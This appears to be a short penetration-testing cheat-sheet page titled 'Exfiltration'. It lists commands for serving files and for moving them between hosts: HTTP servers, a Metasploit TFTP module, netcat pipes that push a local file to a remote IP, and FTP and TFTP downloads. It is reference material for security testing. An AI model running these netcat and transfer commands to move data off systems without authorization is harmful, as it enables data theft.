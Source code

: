 +++
Title = "Exfiltration"
weight = 6
+++

### Serving files

```
php -S 0.0.0.0:80
python -m SimpleHTTPServer [<port>]
auxilaiary/server/tftp (MSF)
```

### Netcat

```
nc -lvp <port> > <outfile>
nc <ip> <port> < <infile>

nc -lvp <port> < <infile>
nc <ip> <port> > <outfile>
```

### FTP

```
ftp <ip>
get <file>
```

### TFTP

```
tftp -i <ip> GET <file>
```

